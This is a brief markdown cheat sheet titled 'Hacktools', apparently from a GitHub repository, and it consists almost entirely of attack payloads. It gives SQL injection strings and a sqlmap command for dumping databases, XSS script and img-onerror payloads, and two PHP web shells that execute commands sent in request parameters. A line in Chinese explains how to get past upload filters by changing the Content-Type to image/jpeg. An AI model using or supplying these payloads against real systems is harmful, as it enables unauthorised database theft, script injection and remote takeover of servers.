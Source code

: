 # Hacktools

# SQLI
## Easy command
'OR 1=1-- <br>
'OR '1'='1'--'

## Autotools
sqlmap -u "target-url" -p your-parament --random-agent --batch --dbs


# XSS
```
<script>alert('XSS')</script> 
"><img src=x onerror=alert(1)>

# php file upload webshell
```
```
<?php system($_REQUEST["cmd"]);?> 
<?php echo shell_exec($_GET['cmd']);?> 
```
or <br>
將 Content-Type: application/x-php 換成 /image/jpeg


https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/README.md
